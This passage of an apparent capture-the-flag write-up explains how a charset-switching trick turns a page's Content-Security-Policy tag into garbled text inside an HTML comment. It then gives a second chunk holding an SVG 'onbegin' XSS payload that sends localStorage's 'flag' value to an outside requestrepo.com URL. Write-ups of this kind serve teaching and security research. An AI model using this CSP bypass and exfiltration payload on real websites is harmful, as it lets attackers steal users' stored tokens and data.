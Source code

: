 Just to make everything easier to understand here’s what the first chunk gets evaluated to in the streamed parsed mode

![6.png](/images/sekai/6.png)

```html
<html>
<head>
  <!-- �瘁�⑬�狩續�蔗�㊤髟蝟就衷銓緕�嚆笊鱸�㎜闌蜒褜�竢銓緕�≫繙癜踉∮鱆�ь闔紮⊂� <!-- test -->
<!-- AAAA junks -->
```

So we have successfully dropped the csp, we made it become this`�瘁�⑬�狩續�蔗�㊤髟蝟就衷銓緕�嚆笊鱸�㎜闌蜒褜�竢銓緕�≫繙癜踉∮鱆�ь闔紮⊂�` 

Now let’s go to the second chunk

```python
...
c2 = b'''
    <meta charset="utf-8">
    </head>
    <body>
    <svg><animate onbegin="fetch(`https://s9cs3dwb.requestrepo.com?c=${localStorage.getItem('flag')}`)" attributeName="x" dur="1s">
    </body>
</html>'''
...
```
